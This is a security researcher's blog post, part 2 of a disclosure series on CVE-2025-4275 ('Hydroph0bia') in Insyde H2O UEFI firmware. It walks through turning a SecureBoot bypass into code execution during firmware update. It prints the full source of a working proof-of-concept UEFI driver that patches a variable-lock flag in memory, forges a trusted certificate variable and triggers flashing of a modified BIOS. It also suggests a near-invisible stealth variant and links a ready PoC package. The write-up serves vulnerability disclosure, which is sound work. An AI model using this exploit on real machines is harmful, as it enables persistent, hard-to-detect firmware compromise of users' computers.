

This post will again be about a vulnerability I dubbed Hydroph0bia (as a pun on Insyde H2O) aka CVE-2025-4275 or INSYDE-SA-2025002. This part is about pivoting from just a SecureBoot bypass into arbitrary code execution during firmware update and taking over the DXE volume.
Intro
If you don't understand WTF is happening here, please read part 1 first. Already did? Nice, let's continue.
Previously we learned that setting SecureFlashSetupMode and SecureFlashCertData variables with our custom certificate (in EFI_SIGNATURE_LIST format described in UEFI specification) makes BdsDxe to trust objects that we signed as if they come from Insyde themselves.
This automatically means that we can run even in boot modes where nothing but Insyde 1st-party code could be running, and impersonate the firmware updater application, but instead of updating anything, we can insert arbitrary modification to the parts of the firmware that are not covered by either Intel BootGuard (or similar AMD tech) or Insyde FlashDeviceMap hashing. Since UEFITool NE A70, FDM parsing is natively supported, so before trying the attack on your firmware, check out if you can modify the DXE volume, or have to resort to other option.
Good (Lenovo IdeaPad 5 Pro 16IAH7):
Bad (HUAWEI MateBook 14 2023):
Our firmware-under-test doesn't cover the DXE volume by any hashes, so if we could mimic the firmware updater application well enough, we can take over it and do whatever.
Firmware Update?
Let's see how the whole firmware update subsystem works on Insyde H2O:
- Insyde updater OS application puts the update capsule and the flash updater UEFI application onto EFI system partition (at /EFI/Insyde/isflash.bin), sets SecureFlashTrigger=1 into a non-volatile SecureFlashInfo variable (using some proprietary mechanisms over SMM, because the variable is "locked" (write-protected) using VariableLockProtocol before booting the OS), then reboots the machine.
- After reboot a PEI driver SecureFlashPei detects the presence of SecureFlashInfo, checks SecureFlashTrigger to be 1, if so, prevents the flash writing locks from being engaged. This means the firmware will remain writable after PEI phase ends.
- In DXE a driver called SecureFlashDxe also detects the presence of SecureFlashInfo, checks the same trigger value, then registers a special callback for BdsDxe to later call into for starting the update process.
- BdsDxe also checks for SecureFlashInfo and the trigger, and calls the function that SecureFlashDxe registered before.
- The callback does some preparations (disables reset capabilities, keyboard combinations, boot devices and other stuff that would possbily interrupt firmware update process), then tries to transfer control to isflash.bin in a rather interesting way.

As you can see, there is no way for an error returned from LoadCertificateToVariable to influence the LoadImage call, so if we shadow SecureFlashCertData variable by using SFCD tool from part 1, it should be successfully consumed by LoadImage, or custom-cert-singed isflash.bin should be started, and exploitation should be complete.
Of course, the first attempt at it predictably doesn't work, because of somewhat a sanity check or maybe even a naive countermeasure against our attack, that was absent in BdsDxe before.
Turns out Insyde decided to first call SetVariable on SecureFlashCertData in a way that will remove all normal NVRAM variables, both volatile and non-volatile. However, thanks to UEFI SecureBoot yet again there are not one, but two different kinds of variables that aren't normal and will not be removed by this call - the old and deprecated Authenticated Write (AW) and the new fancier Time-Based Authenticated Write (TA). Moreover, as we are executing in BDS phase, we could even use the VariableLockProtocol to make this call fail (silently, once again, who needs to check the return values, amirite?) without setting special variables, but this idea came into my head way later than I already finished reversing the VariableRuntimeDxe driver and achieved re-setting SecureFlashCertData from NV+BS+RT into NV+BS+RT+AW, which made it as strongly protected from naive SetVarible calls as everything else that the fimware really doesn't want random callers to temper with (i.e. firmware password and alike).
Special Variables?
Way back in the 2000s Intel (and later UEFI that they formed around EFI) decided to provide a reference implementation for UEFI variable services, but did not require it to be used (by not putting it into UEFI Platform Interface specification). This lead to several completely different implementations of NVRAM, each having their own issues and quirks. Here we need to dig deep enough into the Insyde H2O variant to see how we can set a custom special variable and make sure it can't be deleted by a stray SetVariable call.
Insyde implements UEFI variable services in a VariableRuntimeDxe driver, which is starting very early in DXE by the virtue of DXE Apriori File (a list of drivers so important to DXE that the core starts them before usual dispatching).
VariableRuntimeDxe is a giant driver to reverse, so that part was rather fun, but after around two weeks of bashing my head against this wall of disassembly and decompilation I've found out the following:
- No custom TA variables can be set, because there's a complete list of them, all relevant to UEFI SecureBoot.
- Insyde uses AW variables for storing firmware password and similar things, and there is a very obscure kind of custom AW variables (I expect that code to never ever been called or tested before) that can only be set before the start of BDS.
- There are no other special custom variables.
This means we are left with an interesting situation - we could be able to set our SecureFlashCertData as a special Insyde AW variable if we could run before BdsDxe, but our callback is executing by BdsDxe, so we are in sort of chicken-and-egg stalemate.
Now we need to see how exactly VariableRuntimeDxe does its "disable support for setting AW variables", and see if we can maybe prevent it from doing so, or revert that decision somehow. Hooking BdsArchProtocol->Entry can be done is several ways, and in most cases the hook can be found by searching for uses of BDS_ARCH_PROTOCOL_GUID:
Then we can immediately see the hook that is getting registered:
And the function that will be called instead of the original BdsArchProtocol->Entry:

Huh, so it looks like the only thing that prevents us from setting custom AW variables is a global flag inside VariableRuntimeDxe that we need to find and flip from 1 back to 0 (let's call it InsydeVariableLock then). Because VariableRuntimDxe starts very early, it is almost always (not sure about every possible case, but it is true for every firmware I've tried so far) the very first driver that hooks BdsArchProtocol->Entry, meaning that once the protocol will get published, our hook will be the very last (as they are processed in LIFO order), meaning that if we locate BdsArchProtocol from the callback discussed above, the BdsArchProtocol->Entry there is our CustomBdsEntry.
Variable Lock?
To trigger the firmware update process we need to somehow bypass write protection of SecureFlashInfo variable, that is protected by VariableLockProtocol. This is what Intel wants that protocol to do:
Variable Lock Protocol is related to EDK II-specific implementation of variables and intended for use as a means to mark a variable read-only after the event EFI_END_OF_DXE_EVENT_GUID is signaled.
As customary in UEFI land this is an utter bullshit, because one of the main uses of VariableLock is to lock Setup variable, and locking it at EndOfDxe will make BIOS Setup application unusable. Instead, BdsDxe locks all variables marked by VariableLockProtocol->RequestToLock right before transferring control to the bootloader, which is late enough for all non-bootloader kinds of external things to already get executed. We don't want to mess with OptionROMs here just yet, but there's another obscure mechanism to run UEFI drivers early in BDS - DriverXXXX:
Each Driver#### variable contains an EFI_LOAD_OPTION. Each load option variable is appended with a unique number, for example Driver0001, Driver0002, etc.
The DriverOrder variable contains an array of UINT16’s that make up an ordered list of the Driver#### variable. The first element in the array is the value for the first logical driver load option, the second element is the value for the second logical driver load option, etc. The DriverOrder list is used by the firmware’s boot manager as the default load order for UEFI drivers that it should explicitly load.
If we put our code into an UEFI Driver and arm it for DriverXXXX, it will run earlier than VariableLock is engaged, effectively bypassing it. This can be easily done in a modern UEFI shell using bcfg driver add command, and we are able to run our driver and UEFI shell because of the vulnerability that allows us to run whatever regardless of SecureBoot state.
UEFI Driver?
I have some experience in writing UEFI drivers already, so for me this part was trivial. If you want to learn how to write such driver, UEFI Driver Writer's Guide covers a lot of things, and you can check out open source UEFI drivers like CrScreenshotDxe as a source of inspiration.
This is the full source of our driver:
#include <Uefi.h>
#include <Library/UefiDriverEntryPoint.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/UefiRuntimeServicesTableLib.h>
#include <Protocol/Bds.h>
#pragma pack(push, 1)
typedef struct {
UINT32 ImageSize;
UINT64 ImageAddress;
BOOLEAN SecureFlashTrigger;
BOOLEAN ProcessingRequired;
} SECURE_FLASH_INFO;
typedef struct {
UINT8 Byte48;
UINT8 Byte8B;
UINT8 Byte05;
UINT32 RipOffset;
UINT8 ByteC6;
UINT8 Byte80;
UINT32 RaxOffset;
UINT8 Value;
} VARIABLE_RUNTIME_BDS_ENTRY_HOOK;
#pragma pack(pop)
#define WIN_CERT_TYPE_EFI_GUID 0x0EF1
STATIC UINT8 VariableBuffer[] = {
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // MonotonicCount
0x00, 0x00, 0x00, 0x00, //AuthInfo.Hdr.dwLength
0x00, 0x00, //AuthInfo.Hdr.wRevision
0x00, 0x00, //AuthInfo.Hdr.wCertificateType
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // AuthInfo.CertType
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // AuthInfo.CertType
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // CertData
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // CertData
// Certificate in EFI_CERTIFICATE_LIST format
0xa1, 0x59, 0xc0, 0xa5, 0xe4, 0x94, 0xa7, 0x4a, 0x87, 0xb5, 0xab, 0x15,
...
0xb4, 0xf5, 0x2d, 0x68, 0xe8
};
UINTN VariableSize = 48 + 857;
EFI_GUID gSecureFlashVariableGuid = { 0x382af2bb, 0xffff, 0xabcd, {0xaa, 0xee, 0xcc, 0xe0, 0x99, 0x33, 0x88, 0x77} };
EFI_GUID gInsydeSpecialVariableGuid = { 0xc107cfcf, 0xd0c6, 0x4590, {0x82, 0x27, 0xf9, 0xd7, 0xfb, 0x69, 0x44 ,0xb4} };
EFI_STATUS
EFIAPI
SetCertAsInsydeSpecialVariable (
VOID
)
{
EFI_STATUS Status;
UINT32 Attributes = EFI_VARIABLE_BOOTSERVICE_ACCESS | EFI_VARIABLE_RUNTIME_ACCESS |
EFI_VARIABLE_NON_VOLATILE | EFI_VARIABLE_AUTHENTICATED_WRITE_ACCESS;
EFI_VARIABLE_AUTHENTICATION *CertData = (EFI_VARIABLE_AUTHENTICATION *)VariableBuffer;
CertData->AuthInfo.Hdr.dwLength = VariableSize;
CertData->AuthInfo.Hdr.wRevision = 0x0200;
CertData->AuthInfo.Hdr.wCertificateType = WIN_CERT_TYPE_EFI_GUID;
gBS->CopyMem(&CertData->AuthInfo.CertType, &gInsydeSpecialVariableGuid, sizeof(EFI_GUID));
Status = gRT->SetVariable(
L"SecureFlashCertData",
&gSecureFlashVariableGuid,
Attributes,
VariableSize,
VariableBuffer
);
return Status;
}
EFI_STATUS
EFIAPI
SecureFlashPoCEntry (
IN EFI_HANDLE ImageHandle,
IN EFI_SYSTEM_TABLE *SystemTable
)
{
EFI_STATUS Status;
SECURE_FLASH_INFO SecureFlashInfo;
UINT32 Attributes;
UINTN Size = 0;
//
// This driver needs to do the following:
// 1. Add AW attribute to SecureFlashCertData variable that is already set as NV+BS+RT
// This will ensure that SecureFlashDxe driver will fail to remove it
// 2. Set SecureFlashTrigger=1 in SecureFlashInfo variable,
// that should have been write-protected by EfiVariableLockProtocol, but isn't,
// because we are running from Driver0000 before ReadyToBoot event is signaled.
// This will ensure that SecureFlashPei and other relevant drivers will not enable
// flash write protections, and SecureFlashDxe will register a handler
// that will ultimately LoadImage/StartImage our payload stored in EFI/Insyde/isflash.bin
//
// All further cleanup can be done after getting control from SecureFlashDxe.
//
// All variables used for exploitation will be cleaned
// by the virtue of not having them in the modified BIOS region
//
// Locate BDS arch protocol
EFI_BDS_ARCH_PROTOCOL *Bds = NULL;
Status = gBS->LocateProtocol(&gEfiBdsArchProtocolGuid, NULL, (VOID**) &Bds);
if (EFI_ERROR(Status)) {
gRT->SetVariable(L"SecureFlashPoCError1", &gSecureFlashVariableGuid, 7, sizeof(Status), &Status);
return Status;
}
// The function pointer we have at Bds->BdsEntry points to the very top of the hook chain, we need to search it
// for the following:
// 48 8B 05 XX XX XX XX ; mov rax, cs:GlobalVariableArea
// C6 80 CD 00 00 00 01 ; mov byte ptr [rax + 0CDh], 1 ; Locked = TRUE;
// 48 FF 25 YY YY YY YY ; jmp cs:OriginalBdsEntry
// Read bytes from memory at Bds->Entry until we encounter 48 FF 25 pattern
UINT8* Ptr = (UINT8*)Bds->Entry;
while (Ptr[Size] != 0x48 || Ptr[Size+1] != 0xFF || Ptr[Size+2] != 0x25) {
Size++;
if (Size == 0x100) break; // Put a limit to memory read in case it all fails
}
if (Size == 0x100) {
gRT->SetVariable(L"SecureFlashPoCError2", &gSecureFlashVariableGuid, 7, Size, Ptr);
return EFI_NOT_FOUND;
}
// VariableRuntimeDxe is loaded from AprioriDxe before all the other drivers that could have hooked Bds->Entry, to our hook will be the very first
if (Size != sizeof(VARIABLE_RUNTIME_BDS_ENTRY_HOOK)) {
gRT->SetVariable(L"SecureFlashPoCError3", &gSecureFlashVariableGuid, 7, Size, Ptr);
return EFI_NOT_FOUND;
}
// It is indeed the very first one, proceed
VARIABLE_RUNTIME_BDS_ENTRY_HOOK *Hook = (VARIABLE_RUNTIME_BDS_ENTRY_HOOK*)Bds->Entry;
// Make sure we have all expected bytes at expected offsets
if (Hook->Byte48 != 0x48 || Hook->Byte8B != 0x8B || Hook->Byte05 != 0x05 || Hook->ByteC6 != 0xC6 || Hook->Byte80 != 0x80) {
gRT->SetVariable(L"SecureFlashPoCError4", &gSecureFlashVariableGuid, 7, Size, Ptr);
return EFI_NOT_FOUND;
}
// Check the current value of InsydeVariableLock
EFI_PHYSICAL_ADDRESS VariableRuntimeDxeGlobals = *(EFI_PHYSICAL_ADDRESS*)(Ptr + 7 + Hook->RipOffset); // 7 bytes is for the 48 8B 05 XX XX XX XX bytes of first instruction
UINT8* InsydeVariableLock = (UINT8*)(VariableRuntimeDxeGlobals + Hook->RaxOffset);
// Flip it to 0 if it was 1
if (*InsydeVariableLock == 1) {
*InsydeVariableLock = 0;
}
// Bail if it's something else
else {
gRT->SetVariable(L"SecureFlashPoCError5", &gSecureFlashVariableGuid, 7, sizeof(UINT8), &InsydeVariableLock);
return EFI_NOT_FOUND;
}
// Try removing the current NV+BS+RT certificate variable (it might already be set as AW, removal will fail in this case)
Status = gRT->SetVariable(L"SecureFlashCertData", &gSecureFlashVariableGuid, 0, 0, NULL);
if (!EFI_ERROR(Status)) {
// Try setting it as special NV+BS+RT+AW variable
Status = SetCertAsInsydeSpecialVariable();
if (EFI_ERROR(Status)) {
gRT->SetVariable(L"SecureFlashPoCError6", &gSecureFlashVariableGuid, 7, sizeof(Status), &Status);
// Set certificate variable back as NV+BS+RT, this will allow to try again next boot
gRT->SetVariable(L"SecureFlashCertData", &gSecureFlashVariableGuid, 7, VariableSize - 48, VariableBuffer + 48);
return Status;
}
}
// Check if we need to trigger SecureFlash boot, or it was already triggered
Size = sizeof(SecureFlashInfo);
Status = gRT->GetVariable(L"SecureFlashInfo", &gSecureFlashVariableGuid, &Attributes, &Size, &SecureFlashInfo);
if (!EFI_ERROR(Status)) {
if (SecureFlashInfo.SecureFlashTrigger == 0) {
// Fill new SecureFlashInfo
gBS->SetMem(&SecureFlashInfo, sizeof(SecureFlashInfo), 0);
SecureFlashInfo.SecureFlashTrigger = 1; // Trigger secure flash on next reboot
SecureFlashInfo.ImageSize = 1112568; // Size of our isflash.bin payload
// Set the variable to initiate secure flash
gRT->SetVariable(L"SecureFlashInfo", &gSecureFlashVariableGuid, 7, sizeof(SecureFlashInfo), &SecureFlashInfo);
// Reset the system to initiate update
gRT->ResetSystem(EfiResetCold, EFI_SUCCESS, 0, NULL);
}
}
return EFI_SUCCESS;
}
Now we are finally able to replace the original isflash.bin with something interesting of our own, and get it executed during firmware update process when the flash is not write-protected. Let's have some fun!
PoC or GTFO?
We got everything in place, so the only thing remaining is to tie it all together with some minor UEFI shell scripting, build and sign everything, and run the sfpoc.cmd from Windows as Administrator. I'm using a custom-cert-signed version of Intel Flash Programming Tool to write our modified BIOS image, and our mod is very simple - replace the default BGRT boot graphics (that says HUAWEI) with our own image (that says ALL YOU BASE ARE BELONG TO US).

Truly, the DXE volume now belongs to us, and we can add any kind of useful or malicious drivers in there, and modify the original ones to remove WiFi card whitelists, open hidden BIOS settings, and so on.
The PoC is also OEM-agnostic in the most part, and if your PC manufacturer decided to use Insyde firmware update subsystem instead of inventing their own, and your BIOS had been built before 2025-06-10, your machine is likely vulnerable. Might need to sign a different version of FPT, and, of course, provide your own modified BIOS region file, and maybe add a reset into the second startup.nsh because not every firmware arms a watchdog before transferring control to isflash.bin, but otherwise it should all work as it does here.
Outro
There are several hypothesis I'd still like to check, including using VariableLockProtocol from our driver or otherwise making SecureFlashCertData undeletable without jumping around the hooks, as it turns out the DriverXXXX load options are still being processed even in the firmware update mode.
Another option is to locate EfiBlockDevice protocol in our driver and write to flash directly, bypassing the need to do anything but a reset in our isflash.bin stage. This will make an attack almost invisible (it will resemble a memory training error with multiple resets into a black screen followed by "normal" boot).
In part 3 we will check out how Insyde fixed the issues I've reported, and if we could do anything with that "fixed" code to regain the capabilities. So far I haven't seen any BIOS update that would have fixed Hydroph0bia, so that will be written and published when OEMs do their part. Stay tuned!
Links
PoC package for HUAWEI MateBook 14 2023, modified BIOS region image, SecureFlashPoC driver sources and custom-cert-signed binary, and custom-cert-signed Intel FPT 15 are on GitHub.